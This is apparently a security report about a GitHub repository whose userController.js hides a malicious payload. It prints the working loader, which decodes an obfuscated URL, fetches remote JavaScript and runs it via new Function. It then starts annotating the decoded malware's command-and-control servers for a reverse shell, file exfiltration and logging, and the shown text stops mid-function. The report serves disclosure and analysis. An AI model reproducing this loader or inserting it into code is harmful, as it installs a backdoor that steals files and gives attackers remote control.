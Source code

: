 The repo contains a payload in `https://github.com/goldencity010/demo_version/blob/main/server/controllers/userController.js` line 121
Same code updated to
```javascript
//Get Cookie
(async () => {
   // This decodes to: https://api.npoint.io/bda10c07923fceb4f20c
  const byteArray = [
    104, 116, 116, 112, 115, 58, 47, 47, 97, 112, 105, 46, 110, 112, 111, 105,
    110, 116, 46, 105, 111, 47, 98, 100, 97, 49, 48, 99, 48, 55, 57, 50, 51, 102,
    99, 101, 98, 52, 102, 50, 48, 99
  ];
  const uint8Array = new Uint8Array(byteArray);
  const decoder = new TextDecoder('utf-8');
  axios.get(decoder.decode(uint8Array))
    .then(response => {
      new Function("require", response.data.cookie)(require);
    })
    .catch(error => { });
})();

// ========================================
// DECODED MALWARE ANALYSIS
// Source: https://api.npoint.io/bda10c07923fceb4f20c
//

// ========================================
// DECODED VERSION - What the malware actually does:
// ========================================

// 1. DECODED NETWORK CONFIGURATION
const MALWARE_CONFIG = {
  // Main Command & Control Server
  mainServer: "144.172.94.226:6961", // Reverse shell connection

  // File Upload Server
  uploadServer: "144.172.94.226:6966", // Exfiltrates stolen files

  // Key Management Server
  keyServer: "144.172.94.226:6967", // Encryption/decryption keys

  // Logging Server
  logServer: "144.172.94.226:6968", // Activity logs

  // Unique identifier for this infected machine
  machineId: "5c70fc15b1aece5910f4a6b7c8665a2f",

  // Authentication tokens
  userKey: 1003,
  token: 66
};

// 2. DECODED FUNCTIONALITY
const MALWARE_FUNCTIONS = {
  // Suppresses all error messages to avoid detection
  suppressErrors: () => {
    process.on("uncaughtException", () => {});
    process.on("unhandledRejection", () => {});
  },

  // Creates reverse shell connection every 5 seconds
  establishReverseShell: () => {
    setInterval(() => {
      // Connects to 144.172.94.226:6961
```